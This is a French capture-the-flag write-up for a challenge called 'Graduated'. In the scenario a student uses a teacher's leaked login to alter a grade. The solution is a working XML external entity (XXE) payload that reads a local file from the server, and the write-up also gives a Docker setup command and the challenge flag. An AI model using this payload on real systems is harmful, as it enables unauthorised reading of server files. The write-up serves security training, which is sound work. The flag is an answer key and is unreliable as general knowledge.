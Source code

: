 # Graduated
## Challenge

Vous avez raté votre examen de PHP. Cheh!  
Furieux, vous avez décidé de prouver vos compétences en modifiant directement votre note sur le serveur de votre école.
  
Vous avez réussi à compromettre les identifiants de votre professeur absent.

Login : `teacher`  
Mdp :  `teacher`  
Serveur :` graduated.phack.fr`  

## Résolution

```
<?xml version="1.0" encoding="utf-8"?>
  <!DOCTYPE test [
    <!ENTITY xxe SYSTEM "file:///home/rector/flag.txt">
  ]>

<evaluation>
  <student>
    <firstname>Xavier</firstname>
    <lastname>DUPONT DE L</lastname>
  </student>
  <grade>15</grade>
  <subject>Biologie</subject>
  <teacher>
    <firstname>Emile</firstname>
    <lastname>LOUIS</lastname>
  </teacher>
  <comment>&xxe;</comment>
</evaluation>
```

## Setup

```
docker-compose up --build -d
```

## Flag

```
PHACK{XmL_3x7Ern4l_3n7i7iEs_fr0m_b4sH}
```
